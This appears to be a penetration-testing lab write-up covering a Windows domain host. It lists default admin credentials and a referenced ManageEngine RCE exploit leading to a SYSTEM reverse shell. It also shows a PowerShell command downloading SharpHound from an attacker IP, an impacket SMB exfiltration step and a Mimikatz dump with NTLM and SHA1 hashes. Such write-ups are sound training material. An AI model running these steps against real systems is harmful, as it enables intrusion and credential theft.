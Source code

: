 # 192.168.197.95 (SECURE)
## Enumeration
- Web Server hosting ManageEngine Applications Manager
- Login with admin:admin
- ManageEngine Applications Manager Version 14 Build Number 14710
	- Vulnerable to RCE Exploit: https://www.exploit-db.com/exploits/48793 
		![[Pasted image 20250208110454.png]]
## Initial Access & Flag
- Exploit and obtain reverse shell as NT AUTHORITY\SYSTEM
	- C:\Users\Administrator\Desktop\proof.txt 
		![[Pasted image 20250208110618.png]]
## AD Enumeration
- Transfer SharpHound.ps1 and run
	- `PS C:\Windows\Temp> iwr -Uri http://192.168.45.221/SharpHound.ps1 -UseBasicParsing -Outfile SharpHound.ps1`
	- Transfer BloodHound zip file to Kali:
		```shell
		kali@kali:~$ impacket-smbserver -smb2support test .
		C:\Users\offsec> copy FILE \\KALI_IP\test # from Win to Kali
		```
- Computers / Hosts
	![[Pasted image 20250208112306.png]]
	![[Pasted image 20250208113042.png]]
	- SECURE.SECURA.YZX (192.168.197.95)
	- ERA.SECURA.YZX (192.168.197.96)
	- DC01.SECURA.YZX (192.168.197.97)
- Users
	![[Pasted image 20250208112402.png]]
	- michael
	- charlotte (Remote Management User)
- Mimikatz
	- SEKURLSA::LOGONPASSWORDS
		```json
		Authentication Id : 0 ; 299186 (00000000:000490b2)
		Session           : Interactive from 1
		User Name         : Administrator
		Domain            : SECURE
		Logon Server      : SECURE
		Logon Time        : 1/29/2025 5:51:29 PM
		SID               : S-1-5-21-3197578891-1085383791-1901100223-500
				msv :
				 [00000003] Primary
				 * Username : Administrator
				 * Domain   : SECURE
				 * NTLM     : a51493b0b06e5e35f855245e71af1d14
				 * SHA1     : 02fb73dd0516da435ac4681bda9cbed3c128e1aa
				tspkg :
				wdigest :
				 * Username : Administrator
				 * Domain   : SECURE
				 * Password : (null)
				kerberos :
				 * Username : Administrator
				 * Domain   : SECURE
				 * Password : (null)
				ssp :